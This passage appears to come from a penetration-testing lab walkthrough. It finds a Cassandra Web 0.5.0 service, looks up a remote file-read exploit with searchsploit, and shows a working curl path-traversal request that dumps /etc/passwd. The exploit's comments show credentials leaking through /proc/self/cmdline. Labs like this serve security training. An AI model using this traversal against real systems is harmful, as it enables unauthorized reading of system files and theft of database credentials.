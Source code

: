 Moving on to port `3000` we find a static webpage.

A google search yields a Web interface management for NoSQL databases from [Apache Cassandra](https://cassandra.apache.org) version **3.11.13**.

This web management system is similar to phpMyAdmin and manages MySQL databases which may include similar vulnerabilities.

Let's search known vulnerabilities for Cassandra Web using `searchsploit`

```
kali@kali:~$ searchsploit cassandra web
------------------------------------------------------- -------------------------------------------
 Exploit Title                                         |  Path
------------------------------------------------------- -------------------------------------------
Cassandra Web 0.5.0 - Remote File Read                 | linux/webapps/49362.py
------------------------------------------------------- -------------------------------------------
```

Inspecting the script

```
kali@kali:~$ searchsploit -x linux/webapps/49362.py
...
#!/usr/bin/python
...
# Usage
# > cassmoney.py 10.0.0.5 /etc/passwd
# root:x:0:0:root:/root:/bin/bash
# daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
# bin:x:2:2:bin:/bin:/usr/sbin/nologin
#
# > cassmoney.py 10.0.0.5 /proc/self/cmdline
# /usr/bin/ruby2.7/usr/local/bin/cassandra-web--usernameadmin--passwordP@ssw0rd
#
# (these creds are for auth to the running apache cassandra database server)
...
```

We find the following [Metasploit](https://github.com/krastanoel/msf/blob/master/auxiliary/scanner/http/cassandra_web_file_read.rb) module and also find that the vulnerability is also available using `curl`.

```
kali@kali:~$ curl http://192.168.120.155:3000/../../../../../../../../etc/passwd --path-as-is
root:x:0:0:root:/root:/bin/bash
...
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
cassandra:x:108:116:Cassandra database,,,:/var/lib/cassandra:/usr/sbin/nologin
cassie:x:1000:1000::/home/cassie:/bin/bash
freeswitch:x:998:998:FreeSWITCH:/var/lib/freeswitch:/bin/false
anthony:x:1001:1001::/home/anthony:/bin/bash
```

We have confirmed that the service is vulnerable. It's important to use the `--path-as-is` option to disable `curl` path normalization.
